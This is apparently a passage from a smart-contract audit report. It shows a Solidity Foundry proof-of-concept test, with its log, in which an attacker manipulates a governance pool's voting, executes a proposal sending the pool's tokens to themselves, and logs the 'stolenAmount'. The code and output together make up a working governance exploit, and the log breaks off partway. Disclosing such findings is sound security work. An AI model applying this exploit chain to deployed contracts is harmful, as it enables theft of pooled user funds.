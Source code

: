 ```solidity
        uint256 attackerBalanceBeforeExecute = dexeToken.balanceOf(attacker);

        console.log("");
        console.log("------------ 8. The attacker execute the proposal ------------");
        // 8. The attacker waits for 30 mins to execute the proposal.
        {
            proposals = govPool.getProposals(proposalId - 1, 1);
            proposal = proposals[0].proposal;

            console.log(">>> The attacker waits for 30 mins");
            vm.warp(proposal.core.executeAfter + 1);
            vm.roll(block.number + 30 * 60 / 3);

            vm.startPrank(attacker);
            proposalState = govPool.getProposalState(proposalId);
            console.log("- State is SucceededFor ?", IGovPool.ProposalState.SucceededFor == proposalState);

            // execute the proposal
            console.log(">>> The attacker executes the proposal after voteEnd + 30 mins");
            govPool.execute(proposalId);
            proposalState = govPool.getProposalState(proposalId);
            console.log("- State is ExecutedFor ?", IGovPool.ProposalState.ExecutedFor == proposalState);
            vm.stopPrank();
        }

        console.log("");

//        console.log("attackerBalanceBeforeExecute  : ", attackerBalanceBeforeExecute);
//        console.log("attackerBalanceAfterExecute   : ", dexeToken.balanceOf(attacker));
        console.log("usedDeXeAmount                : ", depositAmount + 1);
        console.log("stolenAmount                  : ", dexeToken.balanceOf(attacker) - attackerBalanceBeforeExecute - depositAmount);
    }
}

```

LOG:

```solidity
[PASS] testGovPool() (gas: 3319738)
Logs:
  
>>> Initial conditions
  
  ------------ 1. Deposit minVotesForCreating ------------------
  >>> Deposit minVotesForCreating to create a proposal.
  
  ------------ 2. Create a proposal ----------------------------
  >>> Create a proposal to transfer whole tokens of GovPool from GovPool to the attacker address
  >>> The votingType is delegatedVotingAllowed
  proposalIdCreated             :  14
  RequiredQuorum                :  1163344566800837500000000
  
  ------------ 3. Users against the proposal -------------------
  >>> In this test, UserA votes against with a voting power of 65% of requiredQuorum
  
  ------------ 4. The attacker votes for the proposal ----------
  >>> The attacker votes for the proposal with 35% of requiredQuorum
  - State is Defeated ?  true
  >>> The attacker unlocks his tokens
  maxLockedAmountBeforeUnlock   :  407170598380293125000000
```